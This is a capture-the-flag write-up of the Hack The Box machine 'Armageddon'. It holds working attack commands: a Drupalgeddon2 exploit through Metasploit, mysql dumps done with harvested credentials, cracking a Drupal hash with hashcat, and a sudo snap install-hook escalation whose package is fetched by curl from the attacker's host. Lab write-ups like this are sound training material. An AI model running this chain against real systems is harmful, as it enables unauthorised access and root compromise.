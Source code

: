 # Armageddon
This box begins with an easy entry-point; through enumeration we get access to a database; and the final exploitation is a pretty fun learning experience.

![Armageddon](../Images/htb_armageddon_1.png)

**Tools: nmap, metasploit, hashcat, snap, fpm.**

We begin with the nmap scan:
> nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.233

![Armageddon](../Images/htb_armageddon_2.png)

Ports 22 and 80 are open, and we can see that the webpage is using Drupal 7 (content manager).

![Armageddon](../Images/htb_armageddon_3.png)

Checking the webpage, there's nothing much to do, and at the source we can confirm that it is indeed using Drupal 7.

![Armageddon](../Images/htb_armageddon_4.png)

A quick search for exploits reveals us some vulnerabilities.

![Armageddon](../Images/htb_armageddon_5.png)

We'll be using the drupalgeddon2 exploit from the msfconsole (Metasploit).

![Armageddon](../Images/htb_armageddon_6.png)

We get a meterpreter shell.  
At this point we have to start a manual enumeration. At the /var/www/html/sites/default we can see a few files, and after reading through the settings.php we are able to find an username and password for the mysql database.

![Armageddon](../Images/htb_armageddon_7.png)

![Armageddon](../Images/htb_armageddon_8.png)

> drupaluser  
> CQHEy@9M\*m23gBVj  

Now, to interact with mysql we have to spawn a shell from the meterpreter, then proceed to enumerate the database.
> shell  
> mysql -u drupaluser -p'CQHEy@9M\*m23gBVj' -e 'show databases';  
> mysql -u drupaluser -p'CQHEy@9M\*m23gBVj' -D drupal -e 'show tables';

![Armageddon](../Images/htb_armageddon_9.png)

Now, from the users table, we are able to get a username and its hash. 
> mysql -u drupaluser -p'CQHEy@9M\*m23gBVj' -D drupal -e 'select  from users';

![Armageddon](../Images/htb_armageddon_10.png)

> brucetherealadmin  
> $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt  

Through a quick search on the hashcat's help, we can see that Drupal 7 has an specific hash for the passwords. And so, we're able to get the user's password: 
> hashcat --help | grep -i "drupal"  
> hashcat -m 7900 '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' /usr/share/wordlists/rockyou.txt --show  

![Armageddon](../Images/htb_armageddon_11.png)

We get the password 'booboo'.  
Now we can try to login through SSH and grab the user flag.
> ssh brucetherealadmin@10.10.10.233

![Armageddon](../Images/htb_armageddon_12.png)

We can see that the user can run 'snap_install' with sudo permissions. Snap is a package manager, similar to apt and yum.
> sudo -l

![Armageddon](../Images/htb_armageddon_13.png)

At [GTFObins](https://gtfobins.github.io/gtfobins/snap/) we can find a way to use this elevated privileges to gather information. When trying to run the commands, though, it will inform us that 'fpm' is not installed. There's a [Github page](https://github.com/jordansissel/fpm) for fpm, where we can also find the [installation guide](https://fpm.readthedocs.io/en/latest/installing.html).   
First make sure that you have ruby and its dependencies:
> apt-get install ruby ruby-dev rubygems build-essential

Then through gem install fpm: 
> gem install --no-document fpm 

And if you need, you can also install snap (I already had it installed, so I'm not sure if it is needed): 
> apt install snapd

Now you can copy the commands from the GTFObins and paste in in the terminal (if it's not copying correctly, first paste it on a text file, then copy again the commands from the file).   
The detail here is that, the default command from GTFObins is 'id', which will just show the user information - I've changed mine to read the root.txt file right away, giving us the root flag. 
> COMMAND="cat /root/root.txt"  
> cd $(mktemp -d)  
> mkdir -p meta/hooks  
> printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install  
> chmod +x meta/hooks/install  
> fpm -n xxxx -s dir -t snap -a all meta

This will create our snap package. Now simply run a python3 http server to send the file to the box.

![Armageddon](../Images/htb_armageddon_14.png)

And then from the box download the package (I did it from the /tmp directory to avoid 'spoiling' the other players). 
> curl \<yourIP>/xxxx_1.0_all.snap > my.snap

And then run the package installer using the command provided at the GTFObins page: 
> sudo snap install my.snap --dangerous --devmode

If everything works correctly - it might take a few seconds - you'll get your root flag at the end of the text output, just like shown below.

![Armageddon](../Images/htb_armageddon_15.png)

**That's it for this box!**  
Thanks for reading and keep hacking!

